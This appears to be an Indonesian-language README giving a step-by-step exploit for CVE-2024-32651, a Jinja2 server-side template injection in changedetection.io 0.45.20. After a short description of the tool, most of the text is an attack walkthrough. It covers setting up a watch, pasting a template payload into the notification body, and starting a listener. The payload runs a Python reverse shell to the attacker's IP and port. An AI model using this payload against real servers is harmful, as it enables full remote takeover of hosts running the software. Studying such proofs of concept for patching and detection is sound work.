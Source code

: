 # CHANGEDETECTION.io 0.45.20

# Cara Kerja
ChangeDetection.io bekerja dengan cara mengambil snapshot dari halaman web yang dipantau pada interval waktu tertentu, lalu membandingkannya dengan snapshot sebelumnya untuk mendeteksi perubahan. Pengguna dapat menentukan URL halaman yang ingin dipantau untuk memantau area tertentu saja. Ketika perubahan terdeteksi, sistem akan mengirimkan notifikasi melalui metode yang dipilih, seperti Discord, Email, Slack, Telegram, API calls, dan lainnya. 

# Kerentanan
Kerentanan Server-Side Template Injection (SSTI) pada aplikasi changedetection.io yang menggunakan mesin template Jinja2. Kerentanan ini memungkinkan penyerang melakukan Remote Command Execution (RCE) pada host server, memberikan mereka kemampuan untuk menjalankan perintah sistem tanpa batasan, termasuk kemungkinan penggunaan reverse shell. Dampaknya sangat kritis karena penyerang dapat mengambil alih sepenuhnya mesin server.

# Langkah-langkah
*Sebelum memulai, jalankan web server anda (http.server)*

1. Intro (silahkan login menggunakan kata sandi anda)
![Screenshot 2025-01-04 104116](https://github.com/user-attachments/assets/69d6858a-e9c7-44b3-a01a-93df091e5e9b)

2. Setelah Masuk, masukan alamat pada url kemudian klik "Watch". Setelah itu klik "edit"
![Screenshot 2025-01-04 204927](https://github.com/user-attachments/assets/25c8a380-9eab-4b83-94e4-df7ca405d186)

3. Pada tab "General", masukkan kembali url ke web server anda. Setelah itu set Time -> "Seconds = 30". Klik tab "Notifications"
   *pastikan "Send a notification .." di centang*

4. Pada "Notification URL List", input "gets://<ip>". Pada bagian "Notification Body", copy & paste payload dan ubah IP serta port.
*payload: {{ self.__init__.__globals__.__builtins__.__import__('os').system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip>",<your_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\'') }}"

SAVE!!
(Kembali ke Dashboard)

# Langkah untuk mendapatkan Reverse Shell

1. Aktifkan listener, masukkan port sesuai dengan port yang telah ditentukan pada payload sebelumnya
2. Tambahkan sebuah file pada direktori di "/home/user/" (pada kasus saya,  silahkan sesuaikan dengan kondisi anda)
3. Klik "Recheck" pada bagian alamat website anda.
4. Perhatikan listener anda!

*jika gagal, lanjut poin 5*

5. Reload dashboard
6. Hapus file pada direktori di pc
7. Kembali ke web, centang bagian alamat website anda, kemudian klik "Recheck"
*Jika masih gagal, perhatikan video dibawah*

# PoC
https://github.com/user-attachments/assets/af73e1cd-b55d-480d-8f9e-0129ded43b75

Sumber :
- [CVE Details](https://www.cvedetails.com/cve/CVE-2024-32651)
- [Hacktive Security](https://www.hacktivesecurity.com/blog/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io)
- [Cyber Material](https://cybermaterial.com/server-side-template-injection-with-jinja2/)
